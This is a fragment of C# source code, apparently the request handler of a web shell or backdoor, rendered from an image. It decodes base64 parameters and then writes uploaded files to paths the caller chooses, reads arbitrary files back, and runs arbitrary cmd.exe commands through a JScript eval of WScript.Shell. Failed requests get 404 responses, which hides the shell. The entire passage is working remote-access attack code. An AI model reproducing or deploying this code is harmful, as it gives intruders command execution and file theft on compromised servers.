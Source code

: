 ```
                            byte[] temp = Convert.FromBase64String(path);
                            path = System.Text.Encoding.ASCII.GetString(temp);
                            byte[] data = Convert.FromBase64String(upload);
                            FileStream fs = new FileStream(path, FileMode.Create);
                            fs.Write(data, 0, data.Length);
                            fs.Flush();
                            fs.Close();
                            response.StatusCode = 200;
                            response.OutputStream.Close(); 
                        }
                        else if(!string.IsNullOrEmpty(download))
                        {
                            byte[] temp = Convert.FromBase64String(download);
                            download = System.Text.Encoding.ASCII.GetString(temp);
                            byte[] buffer = System.IO.File.ReadAllBytes(download);
                            string base64str = Convert.ToBase64String(buffer);
                            byte[] data = System.Text.Encoding.UTF8.GetBytes(base64str);
                            response.StatusCode = 200;
                            response.ContentLength64 = data.Length;
                            stm = response.OutputStream;
                            stm.Write(data, 0, data.Length);
                        }
                        else if(!string.IsNullOrEmpty(cmd))
                        {
                            string code = "new ActiveXObject(\"WScript.Shell\").exec(\"cmd.exe /c " + cmd + "\").stdout.readall()";
                            try
                            {
                                Microsoft.JScript.Vsa.VsaEngine vsaEngine = Microsoft.JScript.Vsa.VsaEngine.CreateEngine();
                                code = System.Text.Encoding.ASCII.GetString(System.Text.Encoding.UTF8.GetBytes(code));
                                object obj = Microsoft.JScript.Eval.JScriptEvaluate(code, vsaEngine);
                                byte[] data = System.Text.Encoding.UTF8.GetBytes((string) obj);           
                                response.StatusCode = 200;
                                response.ContentLength64 = data.Length;
                                stm = response.OutputStream;
                                stm.Write(data, 0, data.Length);
                            }
                            catch 
                            { 
                                response.StatusCode = 404; 
                            }
                            finally
                            {
                                if(stm!=null)
                                {
                                    stm.Close();
                                }
                            }
                        }
                        else
                        {
                            response.StatusCode = 404;
                            response.OutputStream.Close();
                        }
                    }             
                }
            }
            catch
            {
```